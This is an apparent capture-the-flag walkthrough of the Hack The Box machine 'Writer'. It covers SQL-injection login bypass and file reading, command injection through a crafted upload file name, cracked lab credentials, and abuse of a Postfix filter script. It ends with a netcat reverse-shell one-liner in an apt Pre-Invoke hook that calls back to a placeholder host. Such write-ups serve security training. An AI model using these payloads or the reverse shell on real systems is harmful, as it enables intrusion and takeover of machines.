



# Writer

## Initial Foothold

```
# Nmap 7.92 scan initiated Sat Aug 28 09:52:56 2021 as: nmap -vvv -p 22,80,139,445 -sCV -oA init 10.10.11.101
Nmap scan report for 10.10.11.101
Host is up, received syn-ack (0.12s latency).
Scanned at 2021-08-28 09:53:09 +07 for 17s

PORT    STATE SERVICE     REASON  VERSION
22/tcp  open  ssh         syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 98:20:b9:d0:52:1f:4e:10:3a:4a:93:7e:50:bc:b8:7d (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCwAA7IblnSMXNfqjkkoT+PAk2SPYBRL5gy0K0FQ2XbFGuPk6ImjJLrb0BF6qw3hU/I2V9ARRnn2SvHlz1+lLB0Ie9wkvH1gZfnUBd5X2sOS3vCzYJOBoD+yzJat40YmKx3NLjYCzkMd/KyTGGIH0cdlnROO6eJdnJN1QYMsrM4+QkkrQHtgz5KAk/aE18+1e5toWK1Px+KtVjvPWiD7mTb4J99f79L/5CCI9nUfmjeB8EU9qe3igUQ3zCGVFGUNTA9Vva99kh3SC6YjBe8+9ipFSZFVSqaJoJpZF83Oy2BEPWEb6lgo3cx7FwGH24nT833Y4Urk294/5ym8F3JFxo/FCgtjuYwp5Im1j9oVOGSnECKfC785zZiSu+ubdnxDjvbuRgW34DsKZpbtVvwxs8R/VNE3bSldVLmz5gCwP0Dfaop+Tbn7MW8OJWL6hEQqNiLw3cSBpzPId/EIMO7TMfqVXTfkMtD1yiIlafd3ianGLu+VUpJ3Bg8jk/COUOHj/M=
|   256 10:04:79:7a:29:74:db:28:f9:ff:af:68:df:f1:3f:34 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBD+ZKRtm6JRYjPO1v8n2nR/cGDBj0Oaydm1VE6rUnvyI6bxfnPCaRjvxDrV3eW5rRXbK/ybC0k5WHtQ9iWogmAU=
|   256 77:c4:86:9a:9f:33:4f:da:71:20:2c:e1:51:10:7e:8d (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBaCZ4ALrn0m103XaA+e+YPrTO2f1hK8mAD5kUxJ7O9L
80/tcp  open  http        syn-ack Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Story Bank | Writer.HTB
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods:
|_  Supported Methods: HEAD GET OPTIONS
139/tcp open  netbios-ssn syn-ack Samba smbd 4.6.2
445/tcp open  netbios-ssn syn-ack Samba smbd 4.6.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: -1m34s
| nbstat: NetBIOS name: WRITER, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   WRITER<00>           Flags: <unique><active>
|   WRITER<03>           Flags: <unique><active>
|   WRITER<20>           Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
| Statistics:
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2021-08-28T02:51:48
|_  start_date: N/A
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 60858/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 36309/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 34246/udp): CLEAN (Failed to receive data)
|   Check 4 (port 16729/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Aug 28 09:53:26 2021 -- 1 IP address (1 host up) scanned in 30.28 seconds
```

Looking at the web page on port 80, the footer contains the domain name `writer.htb` so we add that to our `/etc/hosts` and run `ffuf` to find more subdomains.

```sh
$ ffuf -u "http://writer.htb" -H "Host: FUZZ.writer.htb" -w ~/tools/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -fs 12839
```

This, however, returns nothing. Going back to our `nmap` result, we have smb so let's try listing shares with null authentication

```sh
$ cme smb writer.htb -u '' -p '' --shares
SMB         10.10.11.101    445    WRITER           [*] Windows 6.1 Build 0 (name:WRITER) (domain:) (signing:False) (SMBv1:False)
SMB         10.10.11.101    445    WRITER           [+] \:
SMB         10.10.11.101    445    WRITER           [+] Enumerated shares
SMB         10.10.11.101    445    WRITER           Share           Permissions     Remark
SMB         10.10.11.101    445    WRITER           -----           -----------     ------
SMB         10.10.11.101    445    WRITER           print$                          Printer Drivers
SMB         10.10.11.101    445    WRITER           writer2_project
SMB         10.10.11.101    445    WRITER           IPC$                            IPC Service (writer server (Samba, Ubuntu))
```

The share "writer2_project" looks interesting. However, we can't seem to read it, so we note it down to come back to it later.

Running `gobuster` gives us a few pages

```
/.                    (Status: 200) [Size: 12839]
/about                (Status: 200) [Size: 3522]
/administrative       (Status: 200) [Size: 1443]
/contact              (Status: 200) [Size: 4905]
/dashboard            (Status: 200) [Size: 12839]
/logout               (Status: 200) [Size: 12839]
/server-status        (Status: 403) [Size: 277]
/static               (Status: 200) [Size: 2079]
```

`/administrative` presents to us a log in panel, while `/static` has directory listing enabled but only contains js and css files with nothing special. Targeting `/administrative`, I ran `sqlmap` with `login.req` being an intercepted login request.

```sh
$ sqlmap -r `pwd`/login.req --batch --os-shell
```

Looking at the scan, we seem to have SQL injection, specifically blind time-based injection. We go on to leak the database.

```sh
$ sqlmap -r `pwd`/login.req --batch --current-db --tables
$ sqlmap -r `pwd`/login.req --batch -D writer -T users --dump
```

With that, we should have credentials to crack

```
Database: writer
Table: users
[1 entry]
+----+------------------+--------+----------------------------------+----------+--------------+
| id | email            | status | password                         | username | date_created |
+----+------------------+--------+----------------------------------+----------+--------------+
| 1  | admin@writer.htb | Active | 118e48794631a9612484ca8b55f622d0 | admin    | NULL         |
+----+------------------+--------+----------------------------------+----------+--------------+
```

Unfortunately, we're unable to crack the password. I then tried running `sqlmap` without time-based injection because it's rather slow ...

```sh
sqlmap -r `pwd`/login.req --batch --technique=BEUSQ --level 5  --risk 3
```

... and got the following payload.

```
---
Parameter: uname (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: uname=-3338' OR 6756=6756-- rLXu&password=test
---
```

By intercepting the login request and setting the request body to the URL-encoded payload `uname=' OR 1=1-- &password=test`, we're able to login. I also found that data is reflected from the parameter `uname` to the 1st section (separated by `.`) of the cookie "session". Knowing that the backend database is Oracle (reported by `sqlmap`), I went on testing SQLi.



Doing a union SQLi with all nulls gives us "None". Testing each of the 6 parameters ...



We see that the 2nd parameter is reflected. We can try exfiltrating `/etc/passwd`.



We see that we can read files. Looking at the cookies, I see that the "session" cookie starts with `.eJy`, and by experience, I recognize that this looks like a Flask session cookie. We can confirm that by running `flask-unsign` on the cookie.

```sh
$ flask-unsign --decode --cookie ".eJyrViotTi1SslJSVyjNy8zPUyhOzUlNLlHIK83J0YlRKixPLSqpjFHSAfNRCQVdXQWlWgDqGxZv.YUrNBQ.hAUsLULzyZYM4JF5DOtrOqowwb0"
{'user': '\' union select null,"qwerty",null,null,null,null -- '}
```

Knowing that, we hunt for Flask files in addition to the usual. Looking at `/etc/apache2/sites-enabled/000-default.conf` ...

```
Welcome # Virtual host configuration for writer.htb domain
&lt;VirtualHost *:80&gt;
        ServerName writer.htb
        ServerAdmin admin@writer.htb
        WSGIScriptAlias / /var/www/writer.htb/writer.wsgi
        &lt;Directory /var/www/writer.htb&gt;
                Order allow,deny
                Allow from all
        &lt;/Directory&gt;
        Alias /static /var/www/writer.htb/writer/static
        &lt;Directory /var/www/writer.htb/writer/static/&gt;
                Order allow,deny
                Allow from all
        &lt;/Directory&gt;
        ErrorLog ${APACHE_LOG_DIR}/error.log
        LogLevel warn
        CustomLog ${APACHE_LOG_DIR}/access.log combined
&lt;/VirtualHost&gt;
```

We see that we have a web server in `/var/www/writer.htb/writer/` so we try grabbing `__init__.py` at `/var/www/writer.htb/writer/__init__.py`. The full code is saved in `init.py`.

We have credentials in the function `connections()`. We can try the credentials in `/administrative` but it doesn't work. Looking back at `/etc/passwd`, a few users have a shell

```
root:x:0:0:root:/root:/bin/bash
kyle:x:1000:1000:Kyle Travis:/home/kyle:/bin/bash
filter:x:997:997:Postfix Filters:/var/spool/filter:/bin/sh
john:x:1001:1001:,,,:/home/john:/bin/bash
```

I tried spraying the password with those usernames in SSH which didn't work. Trying the credentials with SMB, we can log in as kyle.

```sh
smbclient //writer.htb/writer2_project --user kyle
```

With in the share, `writerv2/settings.py` contains the `SECRET_KEY` which we can use to forge session cookies. However, I couldn't seem to forge a cookie that logs me into `/administrative`.

Looking back at the code of `__init__.py`, we have several calls to `os.system()` so I started hunting for command injection, specifically in `add_story()` and `edit_story()`. I'm targeting `add_story()` since it's shorter and simpler but I believe the same should work on `edit_story()`.

Looking at the code, before we even get to `os.system()`, we need to be authenticated so I just copy a cookie we got from our previous SQL injection attempts. You can also just do another SQL injection with the following payload.

```
uname='+union+select+null,"test",null,null,null,null+--+&password=test
```

To get to the system calls, we also need to use `image_url`. The function `urllib.request.urlretrieve(url)` takes in a URL and returns a file name and some headers. We want to control the file name. However, if we give it a URL like `http://example.com/file.jpg`, the resulting file name is a random string we can't control. We can, however, control the file name if it's a URL that uses `file://` instead of `http://`. The problem now is that the file needs to exist on the machine. To control the file name, we can upload a file of our own with `http://writer.htb/dashboard/stories/add`. Targeting the line `os.system("mv {} {}.jpg".format(local_filename, local_filename))`, I created `command_injection.py`. Set up a listener, edit and run the script and you should have a shell as `www-data`.

## Privilege Escalation to kyle

Looking at listening ports ...

```sh
www-data@writer:/home$ ss -tlnp
State     Recv-Q    Send-Q       Local Address:Port       Peer Address:Port    Process
LISTEN    0         80               127.0.0.1:3306            0.0.0.0:*
LISTEN    0         50                 0.0.0.0:139             0.0.0.0:*
LISTEN    0         10               127.0.0.1:8080            0.0.0.0:*        users:(("python3",pid=135864,fd=4))
LISTEN    0         4096         127.0.0.53%lo:53              0.0.0.0:*
LISTEN    0         128                0.0.0.0:22              0.0.0.0:*
LISTEN    0         100              127.0.0.1:25              0.0.0.0:*
LISTEN    0         50                 0.0.0.0:445             0.0.0.0:*
LISTEN    0         5                  0.0.0.0:8000            0.0.0.0:*        users:(("python3",pid=135550,fd=3))
LISTEN    0         50                    [::]:139                [::]:*
LISTEN    0         511                      *:80                    *:*
LISTEN    0         128                   [::]:22                 [::]:*
LISTEN    0         50                    [::]:445                [::]:*
```

We have MySQL on port 3306. Using the credentials previously found in `__init__.py`'s `connections()`, we can log into MySQL.

```sh
www-data@writer:/$ mysql -u admin --password writer
```

However, I wasn't able to find anything new with this. Looking around `/var/www/`, I found the file `/var/www/writer2_project/writerv2/settings.py` has some interesting settings.

```
DATABASES = {
    'default': {
        'ENGINE': 'django.db.backends.mysql',
        'OPTIONS': {
            'read_default_file': '/etc/mysql/my.cnf',
        },
    }
}
```

Looking at the file `/etc/mysql/my.cnf` ...

```
[client]
database = dev
user = djangouser
password = DjangoSuperPassword
default-character-set = utf8
```

With those credentials, we can log into MySQL

```sh
www-data@writer:/var/www/writer2_project/writerv2$ mysql -u djangouser --password dev
```

We can then enumerate this database.

```
MariaDB [dev]> show tables;
+----------------------------+
| Tables_in_dev              |
+----------------------------+
| auth_group                 |
| auth_group_permissions     |
| auth_permission            |
| auth_user                  |
| auth_user_groups           |
| auth_user_user_permissions |
| django_admin_log           |
| django_content_type        |
| django_migrations          |
| django_session             |
+----------------------------+

MariaDB [dev]> select username,password from auth_user;
+----------+------------------------------------------------------------------------------------------+
| username | password                                                                                 |
+----------+------------------------------------------------------------------------------------------+
| kyle     | pbkdf2_sha256$260000$wJO3ztk0fOlcbssnS1wJPD$bbTyCB8dYWMGYlz4dSArozTY7wcZCS7DV6l5dpuXM4A= |
+----------+------------------------------------------------------------------------------------------+
```

We can crack kyle's password with rockyou and get the password `marcoantonio`. With that, we should be able to SSH in as kyle.

## Privilege Escalation to john.

Checking our privileges ...

```sh
kyle@writer:~$ sudo -l
[sudo] password for kyle:
Sorry, user kyle may not run sudo on writer.
```

... we can't run `sudo`. Looking back at listening ports ...

```sh
kyle@writer:~$ ss -tlnp
State        Recv-Q        Send-Q               Local Address:Port               Peer Address:Port       Process
LISTEN       0             80                       127.0.0.1:3306                    0.0.0.0:*
LISTEN       0             50                         0.0.0.0:139                     0.0.0.0:*
LISTEN       0             10                       127.0.0.1:8080                    0.0.0.0:*
LISTEN       0             4096                 127.0.0.53%lo:53                      0.0.0.0:*
LISTEN       0             128                        0.0.0.0:22                      0.0.0.0:*
LISTEN       0             100                      127.0.0.1:25                      0.0.0.0:*
LISTEN       0             50                         0.0.0.0:445                     0.0.0.0:*
LISTEN       0             5                          0.0.0.0:8000                    0.0.0.0:*
LISTEN       0             50                            [::]:139                        [::]:*
LISTEN       0             511                              *:80                            *:*
LISTEN       0             128                           [::]:22                         [::]:*
LISTEN       0             50                            [::]:445                        [::]:*

kyle@writer:/dev/shm$ nc localhost 25
220 writer.htb ESMTP Postfix (Ubuntu)

kyle@writer:/dev/shm$ ps aux | grep 8080
www-data     965  0.0  0.0   2608   544 ?        Ss   05:52   0:00 /bin/sh -c cd /var/www/writer2_project && python3 manage.py runserver 127.0.0.1:8080
www-data     968  0.0  0.9  52676 39228 ?        S    05:52   0:00 python3 manage.py runserver 127.0.0.1:8080
www-data  322254  1.5  1.0 128996 42908 ?        Sl   10:32   0:00 /usr/bin/python3 manage.py runserver 127.0.0.1:8080
```

... we see that we have SMTP running on port 25, DNS on port 53 and a web service on port 8080. In learning about SMTP on [hacktricks](/etc/postfix/master.cf), I found that we can execute a script.

```sh
kyle@writer:/dev/shm$ grep -v "^#" /etc/postfix/master.cf
smtp      inet  n       -       y       -       -       smtpd -o content_filter=dfilt:

pickup    unix  n       -       y       60      1       pickup
cleanup   unix  n       -       y       -       0       cleanup
qmgr      unix  n       -       n       300     1       qmgr
tlsmgr    unix  -       -       y       1000?   1       tlsmgr
rewrite   unix  -       -       y       -       -       trivial-rewrite
bounce    unix  -       -       y       -       0       bounce
defer     unix  -       -       y       -       0       bounce
trace     unix  -       -       y       -       0       bounce
verify    unix  -       -       y       -       1       verify
flush     unix  n       -       y       1000?   0       flush
proxymap  unix  -       -       n       -       -       proxymap
proxywrite unix -       -       n       -       1       proxymap
smtp      unix  -       -       y       -       -       smtp
relay     unix  -       -       y       -       -       smtp
        -o syslog_name=postfix/$service_name
showq     unix  n       -       y       -       -       showq
error     unix  -       -       y       -       -       error
retry     unix  -       -       y       -       -       error
discard   unix  -       -       y       -       -       discard
local     unix  -       n       n       -       -       local
virtual   unix  -       n       n       -       -       virtual
lmtp      unix  -       -       y       -       -       lmtp
anvil     unix  -       -       y       -       1       anvil
scache    unix  -       -       y       -       1       scache
postlog   unix-dgram n  -       n       -       1       postlogd
maildrop  unix  -       n       n       -       -       pipe
  flags=DRhu user=vmail argv=/usr/bin/maildrop -d ${recipient}
uucp      unix  -       n       n       -       -       pipe
  flags=Fqhu user=uucp argv=uux -r -n -z -a$sender - $nexthop!rmail ($recipient)
ifmail    unix  -       n       n       -       -       pipe
  flags=F user=ftn argv=/usr/lib/ifmail/ifmail -r $nexthop ($recipient)
bsmtp     unix  -       n       n       -       -       pipe
  flags=Fq. user=bsmtp argv=/usr/lib/bsmtp/bsmtp -t$nexthop -f$sender $recipient
scalemail-backend unix	-	n	n	-	2	pipe
  flags=R user=scalemail argv=/usr/lib/scalemail/bin/scalemail-store ${nexthop} ${user} ${extension}
mailman   unix  -       n       n       -       -       pipe
  flags=FR user=list argv=/usr/lib/mailman/bin/postfix-to-mailman.py
  ${nexthop} ${user}
dfilt     unix  -       n       n       -       -       pipe
  flags=Rq user=john argv=/etc/postfix/disclaimer -f ${sender} -- ${recipient}
```

Notice the last line. `disclaimer` is executed when john receives an email. Checking that executable ...

```sh
kyle@writer:/dev/shm$ file /etc/postfix/disclaimer
/etc/postfix/disclaimer: POSIX shell script, ASCII text executable
kyle@writer:/dev/shm$ ls -l /etc/postfix/disclaimer
-rwxrwxr-x 1 root filter 1021 Sep 23 10:46 /etc/postfix/disclaimer
kyle@writer:/dev/shm$ id
uid=1000(kyle) gid=1000(kyle) groups=1000(kyle),997(filter),1002(smbgroup)
```

We find that it's a script, and we can edit it because we're in the "filter" group. We can put a reverse shell in the script, set up a listener, and send john an email. (`sendmail` doesn't work, has to be done with  `nc`.)

```sh
kyle@writer:/etc/postfix$ nc localhost 25
220 writer.htb ESMTP Postfix (Ubuntu)
HELO writer.htb
250 writer.htb
MAIL FROM:<kyle@writer.htb>
250 2.1.0 Ok
RCPT TO:<john@writer.htb>
250 2.1.5 Ok
DATA
354 End data with <CR><LF>.<CR><LF>
.
250 2.0.0 Ok: queued as 8871069E
```

After some time, we should have a shell as "john". We can then grab john's SSH key and get a nice SSH shell.

```sh
john@writer:~$ id
uid=1001(john) gid=1001(john) groups=1001(john),1003(management)
```

We see that we're in the group "management" which is unusual so we `find` files and directories owned by this group.

```sh
john@writer:~$ find / -group management 2>/dev/null
/etc/apt/apt.conf.d
```

We can do just about anything we want in `/etc/apt/apt.conf.d` but we have nothing in mind at the moment.

Running `pspy`, we can see `/usr/bin/apt-get update` being run periodically. Looking up "apt-get privilege escalation", we get [this article](https://www.hackingarticles.in/linux-for-pentester-apt-privilege-escalation/). Looking up "apt-get privilege escalation", we get [this article](https://www.hackingarticles.in/linux-for-pentester-apt-privilege-escalation/). Following the article, we run the following in `/etc/apt/apt.conf.d`:

```sh
echo 'apt::Update::Pre-Invoke {"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc YOUR_IP PORT >/tmp/f"};' > pwn
```

When then set up a listener to catch the shell. With that, we should have a root shell.
